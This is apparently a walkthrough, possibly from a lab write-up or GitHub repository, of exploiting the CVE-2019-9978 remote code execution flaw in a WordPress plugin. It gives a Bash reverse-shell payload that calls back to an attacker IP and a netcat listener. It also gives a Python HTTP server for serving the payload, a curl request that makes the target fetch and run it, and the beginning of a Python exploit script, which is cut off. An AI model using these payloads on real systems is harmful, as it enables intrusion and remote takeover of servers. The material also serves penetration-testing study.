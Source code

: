 **Create Payload**: First, a payload is created using a Bash reverse shell command. The payload is as follows:

```bash
<pre>system("bash -c 'bash -i >& /dev/tcp/192.168.45.160/1234 0>&1'")</pre>
```

This payload establishes a reverse shell connection to the IP address `192.168.45.160` on port `1234`.

**Start Listening for Connections**: On the attacker's machine, the netcat (`nc`) command is used to listen for incoming connections on port `1234`. The command is:

```bash
nc -lvnp 1234
```

* **`-l`**: This option stands for "listen mode." When used, `netcat` listens for incoming connections rather than initiating a connection to a remote host. It's essential for setting up a server or listener.
* **`-v`**: This option enables verbose mode, which means `netcat` will provide more detailed output about the connections and data transfer.
* **`-n`**: This option tells `netcat` not to do DNS resolution. It ensures that IP addresses are displayed instead of attempting to resolve hostnames, which can speed up the connection process.

**Set Up an HTTP Server**: On the attacker's machine, an HTTP server is started using Python 3 to serve the payload file. The command to start the HTTP server is:

```bash
python3 -m http.server
```

**Exploit the Vulnerability**: On the compromised WordPress site, the attacker uses the `curl` command to send a GET request to the vulnerable path, injecting the payload URL. **Remote Code Execution (RCE)** is a vulnerability that allows an attacker to execute arbitrary code or commands on a target system remotely. In the context of web applications, RCE occurs when an attacker can inject and execute malicious code on the server from a remote location.

```bash
curl "http://$IP/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.160/payload.txt"
```

Here, `$IP` represents the IP address of the compromised WordPress site. The payload is fetched from `http://192.168.45.160/payload.txt` and executed on the vulnerable server.

#### [Script](https://github.com/20dani09/CVE-2019-9978)

```python
import sys
import requests
from urllib.parse import urljoin
import argparse

class Exploit:
    VULN_PATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

    def __init__(self, target, payload_url):
        self.target = target
        self.payload_url = payload_url

    def engage(self):
        full_url = urljoin(self.target, self.VULN_PATH % self.payload_url)
        response = requests.get(full_url)

        if response.status_code == 500:
            print("[*] Received Response From Server!")
            content = response.text.split('<!DOCTYPE')[0]
            print("[<] Received:\n", content.strip())
        else:
```